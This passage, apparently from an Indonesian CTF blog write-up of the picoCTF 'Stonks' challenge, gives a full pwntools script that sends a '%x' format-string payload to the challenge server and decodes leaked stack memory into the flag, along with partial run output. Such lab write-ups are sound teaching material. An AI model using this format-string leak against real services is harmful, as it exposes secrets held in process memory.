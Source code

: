 Artinya, selama ini, isi buffer, yakni flagnya, sudah ada di response hex yang kita terima, tinggal kita decode saja.

Mengingat kita menggunakan ```%x``` yang mencetak tiap 4 byte, dan kita tahu di soal ini buffer char, tiap %x akan mencetak 4 karakter dari flag. Hal ini berarti, untuk menkonversi hexnya menjadi char, kita potong tiap 1 byte, lalu dikonversi ke ASCII, terakhir di-concat.

Mari kita coba!!
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x" + "_%x"*100 + "\n")

#skip line "Buying stonks with token:\n"
r.recvline()

#dapetin hasil exploit
response = r.recvline()
#decode it to string
decoded_response = response.decode()
#split menjadi chunk
chunks = decoded_response.split("_")
#convert each chunk, tapi harus convert lagi ke bytearray karena ada yg panjangnya gak 8
for chunk in chunks:
  if(chunk=='\n'):
    continue
  #pad hex string
  while(len(chunk)<8):
    chunk = '0' + chunk
  #konvert ke bytes array
  bytes = bytearray.fromhex(chunk)
  #print stringnya
  print("".join([chr(byte) for byte in bytes]),end='')
```
Jadi di kode ini, kita decode responsenya ke string, split separatornya ("_"), lalu untuk setiap string di chunk, kita validasi lagi. Jika stringnya newline, kita skip, jika panjang stringnya kurang dari 8, kita padding biar jadi 8 (biar pas 4 byte entar pas diconvert), lalu string yg panjangnya dah 8 ini diconvert jadi bytearray. Terakhir, tiap byte di bytearray diconvert jadi char unicode.

Mari kita coba!
```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
c:\Users\Anugrah  Wiradhika F\Documents\CTF\pwn_test.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
```